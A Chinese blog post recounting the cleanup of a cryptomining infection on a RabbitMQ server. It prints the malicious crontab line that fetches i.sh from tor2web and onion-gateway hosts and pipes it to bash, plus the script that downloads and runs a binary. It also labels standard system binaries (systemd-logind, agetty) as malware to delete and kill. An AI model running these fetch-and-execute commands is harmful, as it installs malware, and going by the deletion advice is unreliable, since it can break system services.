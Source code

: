 >  　　事情是这样的，发现 RabbitMQ 服务响应非常慢，可以说是基本不响应、无法提供服务了。这时就去服务器上面查看，发现 CPU 的资源被一个叫做`UxYhf8`的程序严重占用。

# 第一次处理

　　看到 CPU 飙升太高，发现这个程序也不是自己所知道的任何一个程序，所以就怀疑中挖矿病毒了。首先把这个程序给`kill`掉，只能先`kill`掉了，不然卡的都快无法操作了。

```
# 34534：挖矿程序的 pid
$ kill -9 34534
```

　　这时 CPU 的资源已经被释放，RabbitMQ 服务也正常了。但是好景不长，没过几分钟就又出来一个新的未知进程`IUfh8f`（事后经过测试，新进程出现的时间在几分钟到几十分钟变化），这时就想到是不是有定时任务，查看定时任务：

```
$ crontab -e
10 * * * * (wget -qO- -U- https://ddgsdk6oou6znsdn.tor2web.io/i.sh || curl -fskL -A- https://ddgsdk6oou6znsdn.tor2web.io/i.sh || wget -qO- -U- http://ddgsdk6oou6znsdn.onion.in.net/i.sh || curl -fskL -A- http://ddgsdk6oou6znsdn.onion.in.net/i.sh || wget -qO- -U- http://ddgsdk6oou6znsdn.tor2web.me/i.sh || curl -fskL -A- http://ddgsdk6oou6znsdn.tor2web.me/i.sh || wget -qO- -U- http://ddgsdk6oou6znsdn.onion.nz/i.sh || curl -fskL -A- http://ddgsdk6oou6znsdn.onion.nz/i.sh || wget -qO- -U- http://ddgsdk6oou6znsdn.onion.ws/i.sh || curl -fskL -A- http://ddgsdk6oou6znsdn.onion.ws/i.sh)|bash
```

　　此 `i.sh` 脚本内容多变，大致如一下：

```
# i.sh 脚本的内容是
exec &>/dev/null
if ! ps -p $(< /tmp/.X11-lock); then
    x=./.y
    wget -qU- http://malwregafeg2fdjn.tor2web.xyz/.$(uname -m) -O$x;chmod 777 $x;$x;rm -f $x
fi
```

　　发现了这么一个定时任务。把它删掉并清理所有定时相关文件：`/etc/cron.d` 目录下、`/var/spool/cron/` 目录下。至此结束（自认为结束）。

# 第二次处理

　　在第一次处理的结果上发现过段时间，挖矿程序又出现了。这是知道问题没有那么简单。可能还残留病毒文件。最后找到几个病毒程序，如下：

```
/usr/lib/systemd/systemd-logind
/sbin/agetty
/sbin/agetty
```

```
$ ps aux | grep -v grep | grep "agetty"
root     26432  0.0  0.0 110044   824 tty1     Ss+  15:15   0:00 /sbin/agetty --noclear tty1 linux
root     26434  0.0  0.0 110044   784 ttyS0    Ss+  15:15   0:00 /sbin/agetty --keep-baud 115200 38400 9600 ttyS0 vt220
$ ps aux | grep -v grep | grep "systemd-logind"
root       502  0.0  0.0  24204  1680 ?        Ss    2018   0:52 /usr/lib/systemd/systemd-logind
```

1. 先删掉病毒文件
2. 杀死病毒程序，一定要多执行几次，我执行了好几次才杀掉。

```
$ ps aux | grep -v grep | grep "agetty" | awk '{print $2}' | xargs kill -9 && ps aux | grep -v grep | grep "systemd-logind" | awk '{print $2}' | xargs kill -9
```

　　至此，完全搞定。